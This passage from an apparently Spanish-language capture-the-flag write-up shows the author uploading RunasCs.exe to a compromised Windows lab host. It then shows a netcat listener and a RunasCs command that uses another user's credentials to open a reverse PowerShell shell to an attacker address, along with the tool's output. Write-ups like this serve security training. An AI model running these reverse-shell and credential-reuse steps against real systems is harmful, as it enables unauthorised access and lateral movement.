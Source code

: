 Veremos que si nos deja, rapidamente vamos a descargarnos la herramienta `RunasCs.exe` para poder obtener una `shell` como dicho usuario.

URL = [Download RunasCs.exe ZIP GitHub](https://github.com/antonioCoco/RunasCs/releases)

Una vez descargado el `.zip` del `RunasCs` vamos a descomprimirlo.

```shell
unzip RunasCs.zip
```

Info:

```
Archive:  RunasCs.zip
  inflating: RunasCs.exe             
  inflating: RunasCs_net2.exe
```

Ahora desde la `shell` vamos a descargarnos el `RunasCs.exe` llendo al directorio `Downloads` de nuestra carpeta de usuario para que podamos utilizarlo.

```powershell
cd C:/Users/bb.morgan/Downloads/
upload RunasCs.exe
```

Info:

```
Info: Uploading /home/kali/Desktop/rustykey/bloodyAD/RunasCs.exe to C:\Users\bb.morgan\Downloads\RunasCs.exe
                                        
Data: 68948 bytes of 68948 bytes copied
                                        
Info: Upload successful!
```

Ahora si desde una `shell` de `Windows` poniendo `shell` en el `meterpreter`...

Pero antes nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos este comando...

```powershell
.\RunasCs.exe ee.reed 'P@ssw0rd!' powershell.exe -r <IP>:<PORT>
```

Info:

```
[*] Warning: User profile directory for user ee.reed does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The logon for user 'ee.reed' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-20b7ac4$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 8460 created in background.
```
